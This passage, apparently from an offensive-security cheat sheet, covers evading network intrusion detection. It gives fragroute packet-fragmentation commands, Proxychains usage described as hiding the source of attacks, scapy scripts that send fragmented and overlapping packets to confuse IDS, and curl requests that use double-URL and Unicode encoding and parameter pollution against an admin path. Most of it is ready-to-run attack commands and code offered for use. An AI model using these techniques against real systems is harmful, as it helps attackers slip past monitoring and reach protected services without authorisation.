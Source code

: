 **Example Usage:**
```bash
# Fragment packets
fragroute -f "ip_frag 8" target-ip

# Duplicate packets
fragroute -f "tcp_seg 8 new" target-ip

# Delay packets
fragroute -f "delay 1000" target-ip
```

### Tool Name: Proxychains
**Description:** Tool for routing traffic through proxy servers to hide the source of attacks.

**Example Usage:**
```bash
# Route through SOCKS proxy
proxychains nmap target-ip

# Route through multiple proxies
proxychains curl http://target-site.com

# Configure proxy chain
echo "socks5 127.0.0.1 9050" >> /etc/proxychains.conf
```

## All Possible Payloads for Manual Approach

### Packet Fragmentation Evasion
```python
from scapy.all import *

# IP fragmentation evasion
def fragment_evasion(target_ip, payload):
    # Split payload into fragments
    packet = IP(dst=target_ip)/TCP(dport=80)/payload
    fragments = fragment(packet, fragsize=8)
    
    for frag in fragments:
        send(frag)

# Overlapping fragments
def overlapping_fragments(target_ip):
    # Create overlapping fragments to confuse IDS
    frag1 = IP(dst=target_ip, frag=0)/TCP(dport=80)/"AAAA"
    frag2 = IP(dst=target_ip, frag=1)/TCP()/"BBBB"
    
    send([frag1, frag2])
```

### Protocol-Level Evasion
```bash
# HTTP evasion techniques
# Unicode encoding
curl "http://target.com/%u0041%u0044%u004D%u0049%u004E"

# Double URL encoding  
curl "http://target.com/%2541%2544%254D%2549%254E"

# Parameter pollution
curl "http://target.com/admin?user=admin&user=guest"

# HTTP verb tampering
```